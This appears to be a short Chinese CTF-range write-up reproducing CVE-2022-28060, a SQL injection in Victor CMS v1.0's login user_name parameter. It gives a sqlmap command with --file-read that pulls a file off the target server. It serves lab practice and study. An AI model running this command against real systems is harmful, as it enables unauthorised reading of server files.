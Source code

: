 ```yaml
---
title: CVE-2022-28060【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

Victor CMS是尼日利亚Victor Alagwu个人开发者的一套开源的内容管理系统。<br />Victor CMS v1.0 版本存在安全漏洞，该漏洞源于/includes/login.[php](https://it.cha138.com/php/)的 user_name 参数。攻击者可以通过user_name参数在/CMSsite/include/login.php中注入查询。

## 2. 影响版本

Victor CMS v1.0

## 3. 漏洞复现

启动环境后直接跑 sqlmap 即可【post 请求】

```python
python sqlmap.py -r xxx.txt --file-read "/flag" --dbms mysql --batch
//成功有结果后
cat /root/.local/share/sqlmap/output/xxx.ichunqiu.com/files/_flag
```

- file-read: SQLmap --file-read从服务器中读取文件

- 当用户权限足够大并且具有特定的函数，即可读取服务器中的文件，可以是文本，也可以是二进制文件
